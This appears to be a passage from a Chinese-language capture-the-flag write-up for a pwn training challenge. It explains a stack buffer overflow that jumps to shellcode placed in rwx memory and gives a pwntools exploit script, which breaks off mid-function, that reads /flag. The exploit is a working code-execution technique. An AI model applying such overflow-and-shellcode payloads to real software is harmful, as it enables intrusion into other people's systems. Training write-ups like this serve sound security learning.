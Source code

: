 ~_所以，我一眼就看出了你的所有漏洞，并用不到 10 秒想出了一套完整的针对你的攻击链。你，不愧是一道纯正的开胃菜。_~

~_握草了好下笔啊啊啊啊。_~下面讲正经的，shellcode 方面没遇到什么限制，程序在 `0x2247D000` 专门为我们的 shellcode 分配了 `0x1000` 字节的 `rwx` 空间，我们随心日它就完了。随后，有一个任意大小读，用它溢出 `buf` 并覆盖返回地址为 `0x2247D000` 即可。easy peasy!

## Exploit

```python
#!/usr/bin/python3

from pwn import ELF, asm, context, gdb, log, p64, pause, process, remote, shellcraft

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-1-0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

padding_to_ret = b"".ljust(0x38, b"A")
ret_addr = p64(0x2247D000)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def construct_payload(stage):
    stage_1 = shellcraft.cat("/flag")
    stage_2 = padding_to_ret + ret_addr

    if stage == 1:
        return asm(stage_1)
    elif stage == 2:
        return stage_2
    else:
        log.failure("Unknown stage number.")


def attack(target, payload):
    try:
        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

```